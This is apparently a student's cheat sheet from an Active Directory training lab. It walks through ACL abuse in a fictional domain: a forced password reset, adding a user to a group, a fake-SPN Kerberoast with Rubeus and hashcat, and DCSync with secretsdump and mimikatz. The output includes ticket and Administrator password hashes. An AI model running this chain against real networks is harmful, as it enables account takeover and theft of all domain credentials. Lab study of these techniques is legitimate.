

# ACL Abuse

## Cheat Sheet



## Authenticating as William Ley

```pwsh
PS C:\Users\htb-student> $passWilliam = ConvertTo-SecureString "transporter@4" -AsPlainText -Force
PS C:\Users\htb-student> $credWilliam = New-Object System.Management.Automation.PSCredential("INLANEFREIGHT\wley", $passWilliam)
```

## Abusing [User-Force-Change-Password](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password)

```pwsh
PS C:\Users\htb-student> $passDana = ConvertTo-SecureString "Str0ngpass86!" -AsPlainText -Force
PS C:\Users\htb-student> Set-DomainUserPassword -Identity damundsen -AccountPassword $passDana -Credential $credWilliam -Verbose
```

```output title="Output"
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

## Authenticating as Dana Amundsen

```pwsh
PS C:\Users\htb-student> $passDana = ConvertTo-SecureString "Str0ngpass86!" -AsPlainText -Force
PS C:\Users\htb-student> $credDana = New-Object System.Management.Automation.PSCredential("INLANEFREIGHT\damundsen", $passDana)
```

## Abusing [GenericWrite](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-9.0)

### Add-DomainGroupMember

```pwsh
PS C:\Users\htb-student> Add-DomainGroupMember -Identity "Help Desk Level 1" -Members damundsen -Credential $credDana -Verbose
```

```output title="Output"
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

### Get-DomainGroupMember

```pwsh
PS C:\Users\htb-student> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select-Object MemberName
```

```output title="Output" hl_lines="28"
MemberName
----------
busucher
spergazed
whounces1950
tatem1940
whighwand1962
freg1943
sulliss
theken1998
vered1980
plase1985
trisheye
susecum
lifee1989
whyall
hinct1998
lacce1947
reaked
cousitony
anniguiturve
pristor
withem
sureat
nower1959
hilowentoce
hispossiond
damundsen
dpayne
```

## Abusing [GenericAll](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-9.0)

### Creating a Fake SPN

```pwsh
PS C:\Users\htb-student> Set-DomainObject -Identity adunn -Credential $credDana -SET @{"servicePrincipalName"="hacker/LEGIT"} -Verbose
```

### Kerberoasting

```pwsh
PS C:\Users\htb-student> C:\Tools\Rubeus.exe kerberoast /user:adunn /nowrap
```

```output title="Output" hl_lines="6"
[*] SamAccountName         : adunn
[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : hacker/LEGIT
[*] PwdLastSet             : 3/1/2022 11:29:08 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$hacker/LEGIT@INLANEFREIGHT.LOCAL*$BC0EAB12DC2441203CBE3403217F9A82$83ED9EEB8468D7E6FB31933C24C1D2E91E08B7A46E4A7CC2DB29F19320F6042EDF31E426DA1E1F1D538CE95C9AF947F38958AAFAB3EF050F001A5C36098B547E104EF2656D6B0D5422F58E4AEB2A3FB737DAA47C5B5B400A0A29FCDDC8C355D09005127AF09C4B7FF1367CD5726B54476016959673A84E88A89342BE831F65B412B81BDC9E5DA9D3C6C222556E6CB764615E488B53574055EDBE6A877D97A5A035E02DE09DF709F79689B1F752A70932DAF5D4DD1D39471842DA2C2D3A70E6511FA79CF139DE7910D594D32EAD15E41E197535F7294698A05D0DF1F4B945A03DA27DBEA564D558D7A153905F863A44C9346692C9C67ADF698AB4254014A0E10CE7CA695B0280D8E0F22BB48C5C4834F37D9FF01C20117D72A282B9ACF5F93D91EFFA8D89EC9210007C6A21258FCE1862C98712FD89D41A8AAFF2B05714B776FFA58F5B673F1FC3007B20078BFEC2B4CB876BCEAA712C26A08D2A97E793EEB47EAC33F8EC41F935CFD492A699ECB36350D02EC4564BC4BAD6F6B6353D42411F4AB5449BFFA86E3E641C12B582A88129D372AF628C97828525AE053E6ED03B6D7C5FC3AB87DD32E75C5B0FCDC6B1FAB6EE2C19323B7665DC08F2E165934669FC65E23B06158203534A31E37B855BAB2BCEC592D14D1BA1D405C489D4507B2C8615331727E640BD23A9C8C4E004006DEAA90CD352ADFF429436A227CF75693D0D0C7D661D1C83710C51C17EDC23753F20F02C53B9724AFF9893F23F98BADA56C0E3EE2982D2F0EE205813A03581FC62AB1C0E0818B6B28B8D31EA65F5095368CFF75FE18AD5D07E99D42B33761219EB5FC26A4ED098E82309CC276057BD84B22D57DCE6E2A0BC0939C0F81E17BD7DFC6F919D364170C3DCAECED8B37CEE4BFD583033639F2A6CFB9725B18BEF997B97F626E1AA9DF3B512E120670648F06D5FC9226E9798632248C0D938568E81808B1C1106824CBFB355A3066DCCB3DF15FC9C867BCE63E0C07825837A1F7B28E45F409E8B84FBB3DA5D748D62BED11CD6EFCFEBD169E901EF18E555C69F2A3C479EA11087ECCD4BB1F2CA5570DB4C1209A51419EB0CB3E46B183F90D8D75FCE52F29527FAB910A9A3EED0534F1FB5B1BFFA764C3FAE1534CCCBF38A3BBA754E17505CA48865E1FB36706D82B8FB54BAA992AFA2B27D896D72C0F57F8089C6872936C712C0F7AB02568E99B61970D593F647A65E8D31351FCD214994BC6074DC83B7225CEA9DAFD306602A932A8D7B98F2237A0FB4CE36C0D580B6492CA9BAA4B48AA2E122914E01553FFCBB7620B81F8EFA5B183BF1DCC52F8FF21EB41611CC12BB30F0168FBCBD4F6B9BA553A21338B1C1FE0417084120A127D47FAE8AE40B1C508EC31CA3E1D7A5DDDD58896576590571023F2BFDF8D7FC154A1109E03F49C3854BB385DB305E93D7DB4B6F05B3F013207E528F36C565E20DC2CAF84545DD847B58F1E1187599833C110E69FF3D438080B442FAD442EDE093875EDA52414DCEAF0C75DBFAF6C8A5EB537C428F4F4BDDBCBD23F6B1ABBAC1251AA2092EFFA50C99B5717E4A9AA06FE36D6ECFDEBEA25F6CF7EE209C326608BCE97E6471CB20B09A636AE095446A2BAE1923A0AF0CFAF41414BA769003F072FED6F2B88F8B956D884BAD4EB3EBF591CFD8A2F2
```

### Cracking the Hash

```sh
htb-student@ea-attack01:~$ hashcat --hwmon-disable -a 0 -m 13100 adunn.hash /usr/local/share/wordlists/rockyou.txt
```

## DCSync

### Requirements

* [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)
* [DS-Replication-Get-Changes-All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)
* [DS-Replication-Get-Changes-In-Filtered-Set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set)

### Getting SID of Angela Dunn

```pwsh
PS C:\Users\htb-student> Get-DomainUser -Identity adunn
```

```output title="Output" hl_lines="12"
postalcode            : 60457
logoncount            : 2
badpasswordtime       : 3/2/2022 12:12:08 PM
l                     : Hickory Hills
department            : Systems Engineer
objectclass           : {top, person, organizationalPerson, user}
displayname           : Angela Dunn
lastlogontimestamp    : 4/5/2022 10:11:21 AM
userprincipalname     : adunn@inlanefreight.local
name                  : Angela Dunn
primarygroupid        : 513
objectsid             : S-1-5-21-3842939050-3880317879-2865463114-1164
samaccountname        : adunn
logonhours            : {255, 255, 255, 255...}
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 12/31/1600 4:00:00 PM
cn                    : Angela Dunn
whenchanged           : 4/5/2022 5:11:21 PM
instancetype          : 4
usncreated            : 16929
objectguid            : 0bb063d6-043f-4210-808f-d4f2f127392c
sn                    : Dunn
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
distinguishedname     : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata : {3/24/2022 3:58:07 PM, 3/24/2022 3:57:44 PM, 3/24/2022 3:56:18 PM, 3/24/2022 3:54:10 PM...}
givenname             : Angela
memberof              : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
lastlogon             : 3/2/2022 12:12:58 PM
streetaddress         : 4051 Dovetail Drive
badpwdcount           : 0
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 10/27/2021 5:37:05 PM
countrycode           : 0
pwdlastset            : 3/1/2022 11:29:08 AM
usnchanged            : 3231716
```

### Extended Rights

```pwsh
PS C:\Users\htb-student> $SIDDunn = "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\Users\htb-student> Get-ObjectAcl -Identity "DC=INLANEFREIGHT,DC=LOCAL" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $SIDDunn} | ? {$_.ObjectAceType -match "Replication-Get"}
```

```output title="Output" hl_lines="2 4 21 23 40 42"
AceQualifier           : AccessAllowed
ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1164
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1164
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1164
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0
```

### Performing the Attack from Linux

```sh
htb-student@ea-attack01:~$ secretsdump.py 'INLANEFREIGHT'/'adunn':'SyncMaster757'@172.16.5.5 -just-dc -outputfile inlanefreight
```

### Performing the Attack from Windows

#### Running as Angela Dunn

```pwsh
PS C:\Users\htb-student> runas /netonly /user:INLANEFREIGHT\adunn powershell.exe
```

#### Administrator Hash

```pwsh
PS C:\Users\htb-student> C:\Tools\mimikatz.exe privilege::debug "lsadump::dcsync /user:INLANEFREIGHT\Administrator /domain:INLANEFREIGHT.LOCAL" exit
```

```output title="Output" hl_lines="3 21"
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 7:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1U3AN2NS1PUAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
      aes128_hmac       (4096) : 95c30f88301f9fe14ef5a8103b32eb25
      des_cbc_md5       (4096) : 70add6e02f70321f
    OldCredentials
      aes256_hmac       (4096) : 5aee6bc2a7afaab4d796a6a1ef08c5711610828974aeb5e988add0120cabc562
      aes128_hmac       (4096) : 56427be96df6f3913bcf86da3db89bc3
      des_cbc_md5       (4096) : 833b83751a254652
    OlderCredentials
      aes256_hmac       (4096) : ccde0f9c16756940b4c9f0cf702ed69c9e56d405f2b9c66f67110b53399a637a
      aes128_hmac       (4096) : 1e2832db0bc49e9b0ee9a932ecba4639
      des_cbc_md5       (4096) : 5dec1f3b9e8315a7

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1U3AN2NS1PUAdministrator
    Credentials
      des_cbc_md5       : 70add6e02f70321f
    OldCredentials
      des_cbc_md5       : 833b83751a254652
```

## Cleaning Up

### Fake SPN

```pwsh
PS C:\Users\htb-student> Set-DomainObject -Identity adunn -Credential $credDana -Clear serviceprincipalname -Verbose
```

```output title="Output" hl_lines="6"
VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### Group Membership

```pwsh
PS C:\Users\htb-student> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members damundsen -Credential $credDana -Verbose
```

```output title="Output"
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
```
